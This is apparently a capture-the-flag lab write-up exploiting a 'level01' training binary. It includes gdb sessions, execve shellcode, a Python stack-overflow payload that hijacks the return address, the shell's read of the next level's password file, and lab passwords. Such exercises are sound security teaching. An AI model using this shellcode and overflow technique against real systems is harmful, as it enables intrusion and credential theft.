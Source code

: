 # Level 01
*password : uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL*

## Analyze
```
scp -P 4242 level01@192.168.56.109:level01 binary/
```

- name = `dat_wil`
- `verify_user_name()` check only the 7 first characters

Interesting part :
```
char pass_input[16];
...
fgets(pass_input, 100, stdin);
```
**exploit** : `fgets` read 100 characters and store them in a buffer of size 16.\

## Buffer overflow : fgets exploit
**objective** : overflow pass_input to execute a shellcode

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
- `pass_input` is too small for the shellcode, so let's use `use a_user_name`
```
(gdb) b verify_user_name
Breakpoint 1 at 0x8048469
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil

Breakpoint 1, 0x08048469 in verify_user_name ()
(gdb) x/x $eax
0x804a040 <a_user_name>:        0x5f746164
```
- address of `a_user_name + 7` : 0x0804a040 + 7 = 0x0804a047

---
### Compute offset

```
b *main+176
Breakpoint 1 at 0x8048580
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAAAAAAAAAAAAA

Breakpoint 1, 0x08048580 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048580 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd700, ebp at 0xffffd708, edi at 0xffffd704, eip at 0xffffd70c
(gdb) x/x $eax
0xffffd6bc:     0x41414141
```
- eip at 0xffffd70c
- buffer at 0xffffd6bc

`0xffffd70c - 0xffffd6bc = 50` (80 in decimal)

---
- eip offset found : 80

```
$ python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "x42" * 80 + "\x47\xa0\x04\x08"' > /tmp/level1 ; cat /tmp/level1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
